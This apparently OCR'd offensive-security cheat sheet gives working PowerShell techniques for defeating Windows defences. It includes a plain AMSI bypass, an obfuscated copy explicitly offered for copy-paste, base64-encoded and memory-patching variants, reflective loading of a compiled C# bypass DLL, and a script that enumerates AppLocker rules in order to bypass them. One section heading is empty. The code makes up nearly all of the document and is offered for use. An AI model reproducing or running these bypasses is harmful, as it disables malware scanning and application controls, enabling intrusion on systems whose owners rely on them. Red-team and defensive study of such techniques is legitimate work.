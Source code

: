 ```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```
Obfuscation example for copy-paste purposes:

```powershell
sET-ItEM ( 'V'+'aR' +  'IA' + 'blE:1q2'  + 'uZx'  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    GeT-VariaBle  ( "1Q2U"  +"zX"  )  -VaL )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f'amsi','d','InitFaile'  ),(  "{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,' ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```

Another method could be to compile the C# bypass to a .NET DLL and use PowerShell to load it reflectively.

```powershell
PS C:\> $bytes = [System.IO.File]::ReadAllBytes("c:\tools\AmsiTest\bin\Debug\AmsiTest.dll")
PS C:\> [System.Reflection.Assembly]::Load($bytes)
GAC Version Location
--- ------- -------
False v4.0.30319
PS C:\> [Amsi]::Bypass()
PS C:\> Invoke-Expression 'AMSI Test Sample: 7e72c3ce-861b-4339-8740-0ac1484c1386'
AMSI : The term 'AMSI' is not recognized as the name of a cmdlet, function, script file, or operable program.
```

```powershell
# Base 64 AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)


$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```


### 2) Powershell Oneliner

### 3) Applocker 

Fortunately for us, there is a powershell module named AppLocker, which can query the AppLocker rules that are enforced on the current system. 
Below is a simple powershell script that outputs the rules in a readable format so you can use this information to bypass them.

```powershell

Import-Module AppLocker
[xml]$data = Get-AppLockerPolicy -effective -xml

# Extracts All Rules and print them.
Write-Output "[+] Printing Applocker Rules [+]`n"
($data.AppLockerPolicy.RuleCollection | ? { $_.EnforcementMode -match "Enabled" }) | ForEach-Object -Process {
Write-Output ($_.FilePathRule | Where-Object {$_.Name -NotLike "(Default Rule)*"}) | ForEach-Object -Process {Write-Output "=== File Path Rule ===`n`n Rule Name : $($_.Name) `n Condition : $($_.Conditions.FilePathCondition.Path)`n Description: $($_.Description) `n Group/SID : $($_.UserOrGroupSid)`n`n"}
```